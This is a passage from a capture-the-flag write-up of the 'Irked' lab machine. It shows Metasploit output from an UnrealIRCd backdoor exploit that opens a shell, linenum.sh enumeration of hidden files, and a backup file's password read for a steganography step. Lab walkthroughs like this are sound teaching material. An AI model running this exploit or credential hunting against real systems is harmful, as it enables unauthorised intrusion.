 ```
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] 10.10.10.117:8067 - Connected to 10.10.10.117:8067...
    :irked.htb NOTICE AUTH :*** Looking up your hostname...
[*] 10.10.10.117:8067 - Sending backdoor command...
[*] Started bind TCP handler against 10.10.10.117:4444
[*] Command shell session 1 opened (10.10.16.14:41723 -> 10.10.10.117:4444) at 2024-08-17 08:55:28 -0400

shell
[*] Trying to find binary 'python' on the target machine
[*] Found python at /usr/bin/python
[*] Using `python` to pop up an interactive shell
[*] Trying to find binary 'bash' on the target machine
[*] Found bash at /bin/bash
```
I had to struggle for a while to find a suitable payload, but it dropped a shell as user "ircd" at the end.

## 5. Shell as user djmardov

Running linenum.sh:

```
╔══════════╣ All relevant hidden files (not in /sys/ or the ones listed in the previous check) (limit 70)
-rw-r--r-- 1 root root 29 May 11  2018 /usr/lib/pymodules/python2.7/.path                                          
-rw-r--r-- 1 root root 2396 Apr  4  2018 /usr/lib/jvm/.java-1.7.0-openjdk-i386.jinfo
-rw-r--r-- 1 root root 0 May 11  2018 /etc/.java/.systemPrefs/.systemRootModFile
-rw-r--r-- 1 root root 0 May 11  2018 /etc/.java/.systemPrefs/.system.lock
-rw------- 1 root root 0 May 11  2018 /etc/.pwd.lock
-rw-r--r-- 1 root root 220 Nov  5  2016 /etc/skel/.bash_logout
-rw------- 1 Debian-gdm Debian-gdm 5584 Aug 17 08:28 /var/lib/gdm3/.ICEauthority
-r--r--r-- 1 root root 11 Aug 17 08:28 /tmp/.X0-lock
-rw-r--r-- 1 root root 0 Aug 17 08:27 /run/network/.ifstate.lock
-rw------- 1 ircd ircd 124 Apr 24  2004 /home/ircd/Unreal3.2/.cvsignore
-rw------- 1 ircd ircd 932 Apr 13  2009 /home/ircd/Unreal3.2/.CHANGES.NEW
-rw------- 1 ircd ircd 5623 Apr 13  2009 /home/ircd/Unreal3.2/.RELEASE.NOTES
-rw------- 1 ircd ircd 1645 Apr 24  2004 /home/ircd/Unreal3.2/.CONFIG.RANT
-rw------- 1 ircd ircd 519 Dec 10  2000 /home/ircd/Unreal3.2/.UPDATE
-rw------- 1 ircd ircd 1060 Apr 24  2004 /home/ircd/Unreal3.2/.SICI
-rw------- 1 ircd ircd 794 Aug 20  2000 /home/ircd/Unreal3.2/.indent.pro
-rw-r--r-- 1 ircd ircd 66 May 14  2018 /home/ircd/.selected_editor
-rw-r--r-- 1 djmardov djmardov 52 May 16  2018 /home/djmardov/Documents/.backup
-rw------- 1 djmardov djmardov 4706 Nov  3  2018 /home/djmardov/.ICEauthority
-rw-r--r-- 1 djmardov djmardov 220 May 11  2018 /home/djmardov/.bash_logout
```
We have a read permission on .backup in djmardov folder. This is indeed suspicious.

```
ircd@irked:~/Unreal3.2$ cat /home/djmardov/Documents/.backup
cat /home/djmardov/Documents/.backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```
What is steg bacup pw? This was a tricky part. Steg indicates that the password is hidden via steganography.
> Steganography is the practice of concealing information within another message or physical object to avoid detection.
Have we seen any images before? yes, the potato photo from 80. I'll use steghide to extract password out of it.
